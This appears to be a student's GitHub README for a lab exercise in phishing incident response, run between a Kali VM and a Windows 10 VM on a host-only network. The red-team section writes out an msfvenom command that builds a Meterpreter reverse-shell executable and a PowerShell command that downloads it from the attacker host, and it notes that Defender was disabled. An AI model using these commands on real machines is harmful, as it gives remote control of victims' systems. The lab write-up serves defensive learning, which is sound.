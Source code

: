 # Phishing-Incident-Response-Project

In this project, I wanted to simulate a phishing payload in a windows environment and capture the activity to perform an incident response investigation with tools like Wireshark, Windows Event Viewer, and Volatility.

# Lab Environment
| Machine    | OS           | IP Address     | Purpose                            |
| ---------- | ------------ | -------------- | ---------------------------------- |
| Kali Linux | Debian-based | 192.168.56.101 | Attacker machine (payload hosting) |
| Windows 10 | Version 22H2 | 192.168.56.102 | Target machine                     |
Virtualization: Oracle VirtualBox
Networking: Host-Only Adapter
Tools: Metasploit, Wireshark, Event Viewer, Sysinternals ProcDump, Volatility 3

# Red Team - Phishing Attack
I started with working off of my Kali Linux VM and wrote a Phishing Payload with Metasploit:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.101 LPORT=4444 -f exe > phishing_payload.exe

I then hosted the payload via Apache, then downloaded the Payload on my Windows VM using:
Invoke-WebRequest -Uri http://192.168.56.101/phishing_payload.exe -OutFile phishing_payload.exe

I had to disable real-time protection in my Windows VM and use the powershell command to get the payload due to Windows's native malware protections. After that, I executed the payload and proceeded to collect information from my Kali Linux VM side.

# Blue Team - Incident Response
Using Wireshark, I was able to capture the traffic between my two VMs the second the payload was executed on my Windows VM. I was also able to go into Windows Defender Event Viewer and see alerts where malware was detected and actions were taken to remove the affected software. Next, I learned how to use ProcDump to capture the memory from the payload usingL:
procdump -ma 3234 phishing_payload_dump.dmp
